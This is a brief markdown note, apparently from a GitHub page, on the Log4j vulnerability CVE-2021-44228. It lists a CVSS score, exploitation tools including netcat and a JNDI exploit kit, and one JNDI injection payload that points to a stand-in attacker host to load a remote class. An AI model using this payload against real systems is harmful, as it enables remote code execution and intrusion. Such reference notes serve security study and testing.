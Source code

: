 ## CVE-2021–44228 Log4j

### CVSS Score: 10

### Tools: mvn marshalsec netcat JNDI Exploit kit https://github.com/pimps/JNDI-Exploit-Kit

### Payload example: ${jndi:ldap://ATTACKER_IP:1389/Exploit.class}
